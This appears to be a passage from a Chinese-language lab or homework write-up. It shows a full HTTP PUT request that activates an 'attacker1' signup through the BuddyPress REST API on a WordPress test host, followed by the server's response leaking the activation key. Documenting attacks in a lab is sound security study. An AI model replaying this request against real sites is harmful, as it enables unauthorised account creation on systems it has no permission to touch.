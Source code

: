    ![1747885790638](image/homework/1747885790638.png)
   - 请求体与注册请求相同。
   - 完整请求包：
        ```
        PUT /wp-json/buddypress/v1/signup/activate/aoM0svmO72kVVPbNxYadAKifjIUuYqj8 HTTP/1.1
        Host:192.168.20.12:10459
        Upgrade-Insecure-Requests: 1
        User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36 Edg/136.0.0.0
        Accept: */*
        Accept-Encoding: gzip, deflate
        Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
        Content-Type: application/json; charset=UTF-8
        Content-Length: 112
        {"user_login": "attcker1", "user_email": "attacker1@163.com", "user_name": "attacker1", "password": "attacker1"}
        ```
    - **得到回显:**
        ```
        HTTP/1.1 200 OK
        Date: Thu, 22 May 2025 03:49:29 GMT
        Server: Apache/2.4.18 (Ubuntu)
        X-Robots-Tag: noindex
        Link: <http://192.168.20.12:10459/wp-json/>; rel="https://api.w.org/"
        X-Content-Type-Options: nosniff
        Access-Control-Expose-Headers: X-WP-Total, X-WP-TotalPages, Link
        Access-Control-Allow-Headers: Authorization, X-WP-Nonce, Content-Disposition, Content-MD5, Content-Type
        Content-Length: 280
        Content-Type: application/json; charset=UTF-8
        [{"id":3,"user_login":"attcker1","registered":"2025-05-22T03:48:36","user_name":"attacker1","activation_key":"aoM0svmO72kVVPbNxYadAKifjIUuYqj8","user_email":"attacker1@163.com","date_sent":"2025-05-22T03:48:36","count_sent":1,"meta":{"field_1":"attacker1","profile_field_ids":1}}]
        ```
